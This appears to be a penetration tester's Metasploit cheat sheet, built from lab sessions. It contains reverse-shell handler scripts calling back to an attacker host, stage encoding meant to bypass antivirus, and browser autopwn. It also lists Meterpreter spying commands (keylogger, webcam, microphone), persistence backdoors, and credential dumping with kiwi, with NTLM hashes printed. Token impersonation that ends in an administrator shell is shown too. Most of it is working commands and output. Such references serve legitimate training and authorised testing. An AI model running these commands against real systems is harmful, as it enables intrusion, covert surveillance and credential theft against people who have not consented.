


## General purpose cmd

### Initializing the MSF Framework

```bash
kali@kali:~$ sudo systemctl start postgresql
kali@kali:~$ sudo msfdb init
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
```

### Workspace creation

```bash
msf > workspace -a [name_of_workspace]
```

### MSF search engine

```bash
msf > search type:auxiliary Apache
msf > search type:auxiliary name:smb
```

### Show categories

```bash
msf6 > show -h
[*] Valid parameters for the "show" command are: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
[*] Additional module-specific parameters are: missing, advanced, evasion, targets, actions
msf6 > show payloads
```

### Open MSF with custom settings (from file)

Script file:

```shell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

Start up command:

```bash
kali@kali:~$ sudo msfconsole -r setup.rc
```

### Open MSF with custom settings (in-line)

```bash
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
> set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
> set LHOST 10.11.0.4;\
> set LPORT 443;\
> run"
PAYLOAD => linux/x86/meterpreter/reverse_tcp
LHOST => 10.11.0.4
LPORT => 443
[*] Started reverse TCP handler on 10.11.0.4:443
```

### Nmap integration

```bash
msf5 > db_nmap 10.11.0.22 -A -Pn
[*] Nmap: Nmap scan report for 10.11.0.22
[*] Nmap: Host is up (0.00054s latency).
[*] Nmap: Not shown: 996 closed ports
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 80/tcp open http
[*] Nmap: |_http-generator: Flexense HTTP v10.0.28
[*] Nmap: |_http-title: Sync Breeze Enterprise @ client251
[*] Nmap: 135/tcp open msrpc Microsoft Windows RPC
[*] Nmap: 139/tcp open netbios-ssn Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp open microsoft-ds?
[*] Nmap: 3389/tcp open ms-wbt-server Microsoft Terminal Services
```

### DB access and interaction

`services`: show every **service scanned** in metasploit  (`-h` to see more options actions)
`hosts`: show every **precedent host scanned** in metasploit  (`-h` to see more options)
`services <filter> --rhosts`: fill module hosts from the queried db
`creds`: Retrieve all valid credentials from the db

### Flags and shortcut

`back`: return to the main menu
`previous`: **load** the **previous module**
`ShowProgress`: ambient flag option (show **progresses in %**)
`verbose`: ambient flag option (show the output as **verbose**)
`pushm`/`popm`: allow to rapidly **push and pop module from the stack**, without losing the loaded options
`makerc`: **save** all the **command** gave to metasploit in a file
`resource`: allow to **execute a command from a file**
`setg`/`unsetg`: **set** (and unset) a variable **globally**, in order to maintain its value when module changes.
`check`: msf **checks** if the victim application **may be vulnerable** to the selected exploit
`info`: show information about the selected module
`options`: list all the parameter supported and required by the module

**Advanced Options:**
`show advanced`: list all the advanced options
`AutoRunScript`: set a **script to run automatically** when **exploitation occurs**
`EnableStageEncoding`: enables the **encryption** of the **staged payload**
`StageEncoder`: **chose** which **encryption algorithm** use on the **staged payload**

### Import external modules

In order to import external exploit it necessary to move them to `/.msf4/modules/` and next perform `updatedb`

---

## Auxiliary Modules

```bash
msf5 > search type:auxiliary
```

- Information Gathering: `/gather/`
- Scanning and Enumeration: `/scanner/`

---

## Browser auto_pwn

There is a specific attack, called autopwn browser attack, that allow to compromise a machine only exploiting some vulnerability in the browser.



```bash
msf > use auxiliary/server/browser_autopwn
```

Any connection to our system will get an arsenal of exploits thrown at it

---

## Metasploit Payloads

- **staged**:
Is a payload that is sent in two parts, a fist small payload which cause the victim to connect back to attacker, and a second payload containing the rest of the shellcode.
`windows/shell/reverse_tcp` Connect back to attacker, spawn cmd shell (staged)
This kind of payload often bypass AV because are divided into different parts

- **non-staged**:
Is a payload that is sent in its entirety in one shot.
`windows/shell_reverse_tcp` - Connect back to attacker and spawn a command shell

---

## Metasploit Exploit Multi Handler

It is a framework to correctly manage all kind of payloads and connections.

```shell
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit

```

`msf5 > exploit -j -z`: allows to run the command as background job (`-j`) and to stop to automatically interacting with the session (`-z`)
`msf5 > jobs`: allows to list all the active jobs and obtain information about specific one (`-i <id>`)
`msf5 > kill <id>`: kill the selected job
`msf5 > sessions`: list all the active sessions and allow to switch to a specific one (`-i <id>`)

---

## Post Exploitation with Meterpreter

### Meterpreter post-exploitation commands

| Command | Effect |
| --- | --- |
| ? | List all possible commands |
| getuid | Find the user owner of the process |
| getpid | Get the process ID of the user |
| arp | Show ARP detail |
| getsystem | Privilege escalation of the system |
| file_collector | find and download certain types of files in the remote machine to our machine |
| sysinfo | General info about the system |
| idletime | Idle time of the user |
| check_root | Check if the device is rooted (Android) |
| send_sms | Send an sms to the -d number with -t message |
| wlan_geolocate | Track the geolocalization of the device |
| webcam_snap | Take a photo from the device camera |
| background | Send the process in background |
| machine_id | Machine ID |
| uuid | uuid of the machine |
| ipconfig/ifconfig | Show the IP info |
| netstat | Execute the netstat command on the machine |
| pwd | Show the current directory |
| upload | upload [source] in [destination] |
| download | download the file on the attacker machine |
| cat / edit | cat and edit a file |
| enumdesktops | Enumerate all desktops |
| getdesktop | Info on the current desktop |
| screenshot | Take a screenshot |
| webcam_list | Lists all available webcam |
| webcam_stream | Start the webcam stream on a remote web-page |
| webcam_snap | Take a snap-shot of the webcam |
| record_mic | Start recording microphones for -d [seconds] |
| keyscan_start | Start a keylogger (in order to dump data the meterpreter process have to be within the same context of the user) |
| keyscan_dump | Show the result of the keylogger |
| keyscan_stop | Stop a keylogger |
| migrate | Migrate the process to [pid] process |
| timestomp | Show and change dates and hour of access, creation and entry |
| run hashdump | Show the login password |
| getprivs | get current privileges on windows |
| transport | Change transport protocol |
| portfwd | port foarwarding |

`getsystem`: [https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)

General usage

- file_collector (search):
    
    ```bash
    meterpreter > run file_collector -d [Path] -f [format] -r -o [file_name] # -r = recursive  -o = output on file
    ```
    
- file_collector (download):
    
    ```bash
    meterpreter > run file_collector -i [file_name] -l [local_path_where_download]
    ```
    
- `load powershell`
- `load kiwi`
[mimikatz](mimikatz.md) version for meterpreter: creds_msv dump all password

### Change transport

```shell
meterpreter > transport add -t reverse_tcp -l 10.11.0.4 -p 5555
[*] Adding new transport ...
[+] Successfully added reverse_tcp transport.
meterpreter > transport list
Session Expiry : @ 2019-10-09 17:01:44
ID Curr URL
-- ---- ---
1 * <http://10.11.0.4:4444/gFojKgv3qFbA1MHVmlpPUgxwS_f66dxGRl8ZqbZZTkyCuJFjeAaDK/>
2 tcp://10.11.0.4:5555
meterpreter > background
[*] Backgrounding session 5...
msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.4:5555
msf5 exploit(multi/handler) > sessions -i 5
[*] Starting interaction with 5...
meterpreter > transport next
[*] Changing to next transport ...
[*] Sending stage (179779 bytes) to 10.11.0.22
[+] Successfully changed to the next transport, killing current session.
[*] 10.11.0.22 - Meterpreter session 5 closed. Reason: User exit
msf5 exploit(multi/handler) >
[*] Meterpreter session 6 opened (10.11.0.4:5555 -> 10.11.0.22:50357)
msf5 exploit(multi/handler) > sessions -i 6
[*] Starting interaction with 6...
meterpreter >
```

### Persistence modules

Persistence on Windows:

```shell
use post/windows/manage/persistence_exe
set SESSION [session_id]
set REXEPATH [path_backdoor]
set STARTUP [USER/SYSTEM/SERVICE]
```

Allow us to load a specific file which will be executed every time an user login. We need to setup a valid handler with the same payload of the backdoor

Persistence on Linux:

```shell
use exploit/linux/local/cron_persistence
set SESSION [session_id]
set USERNAME [username]
```

We need to setup a valid handler with the same payload of the backdoor. Every time the user logs in the system, the backdoor is triggered

### Post-exploitation Modules

Most of the post exploitation features are modules that are applied against existing Meterpreter sessions.

```shell
msf exploit(handler) > search post
msf exploit(handler) > search bypassuac
msf exploit(handler) > use multi/manage/autoroute
msf exploit(handler) > use auxiliary/server/socks4a
```

### Dumping Passwords with kiwi

```shell
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
meterpreter > load kiwi
Loading extension kiwi...
Success.
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============
Username Domain NTLM SHA1
DPAPI
-------- ------ ---- ---- -----
CLIENT251$ corp 4d4ae0e7cb16d4cfe6a91412b3d80ed4 5262a3692e319ca71ac2dfdb2f758e502adbf154
offsec corp e2b475c11da2a0748290d87aa966c327 8c77f430e4ab8acb10ead387d64011c76400d26e c10c264a27b63c4e66728bbef4be8aab
meterpreter >
```

### Dumping Tokens and Creds with incognito

```shell
Incognito Commands
==================

    Command              Description
    -------              -----------
    add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    snarf_hashes         Snarf challenge/response hashes for every token

meterpreter > use incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u
Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
poultry\poultryadmin
sandbox\Administrator
Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON

meterpreter > impersonate_token sandbox\\Administrator
[+] Delegation token available
[+] Successfully impersonated user sandbox\Administrator

meterpreter > getuid
Server username: sandbox\Administrator
meterpreter > shell
Process 7276 created.
Channel 3 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
sandbox\administrator
```